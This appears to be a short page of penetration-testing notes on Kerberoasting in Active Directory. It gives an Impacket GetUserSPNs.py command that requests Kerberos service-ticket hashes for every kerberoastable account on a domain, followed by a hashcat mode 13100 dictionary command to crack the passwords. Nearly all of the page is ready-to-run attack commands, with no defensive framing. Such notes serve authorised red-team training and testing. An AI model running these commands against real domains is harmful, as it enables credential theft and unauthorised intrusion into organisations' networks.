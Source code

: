 Impacket AD
***************

Kerberoating
##############

This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain. This does not have to be on the targets machine and can be done remotely.

.. code-block:: console

        GetUserSPNs.py domain.Name/User:Password -dc-ip d.c.I.P -request 

Then run hashcat to find the password.

.. code-block:: console

        hashcat -m 13100 -a 0 Userhash.txt PASS.txt --force  
